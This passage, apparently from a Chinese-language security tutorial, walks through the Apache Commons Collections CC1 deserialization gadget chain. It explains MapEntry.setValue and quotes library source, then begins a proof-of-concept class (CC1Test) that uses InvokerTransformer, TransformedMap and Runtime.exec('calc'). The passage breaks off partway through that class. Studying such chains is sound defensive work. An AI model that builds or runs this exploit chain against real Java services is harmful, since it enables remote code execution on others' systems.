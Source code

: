 
*   Entry 其实就是 map 遍历的时候的一个键值对，map 其实我们可以类似理解为一个数组，我们通常把一个 entry 叫做键值对，这里就是一个遍历 map 的一个方法：

```plain
for(Map.Entry entry:map.entrySet()){
    entry.getValue();
}
```

*   所以我们可以发现 MapEntry 类中的`setValue`方法其实就是`Map`里面的 setValue 方法，这是这里放到 MapEntry 里面进行了重写，它继承了`AbstractMapEntryDecorator`这个类，这个类又引入了 Map.Entry 接口，还存在`setValue`方法，所以我们只需要进行常用的 Map 遍历，就可以调用`setValue`方法，然后调用`checkSetValue`方法：

```plain
public abstract class AbstractMapEntryDecorator implements Map.Entry, KeyValue {

    /** The <code>Map.Entry</code> to decorate */
    protected final Map.Entry entry;

    public AbstractMapEntryDecorator(Map.Entry entry) {
        if (entry == null) {
            throw new IllegalArgumentException("Map Entry must not be null");
        }
        this.entry = entry;
    }

    /**
     * Gets the map being decorated.
     * 
     * @return the decorated map
     */
    protected Map.Entry getMapEntry() {
        return entry;
    }

    //-----------------------------------------------------------------------
    public Object getKey() {
        return entry.getKey();
    }

    public Object getValue() {
        return entry.getValue();
    }

    public Object setValue(Object object) {
        return entry.setValue(object);
    }
```

#### 利用验证：

这里就能够测试一下到此为止我们的调用链是否成立：

```plain
package exp;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CC1Test {
    public static void main(String[] args) throws Exception{
        //Runtime.getRuntime().exec("calc");命令执行对应的命令；
        Runtime r = Runtime.getRuntime();//单例模式，通过对应方法创建对象
```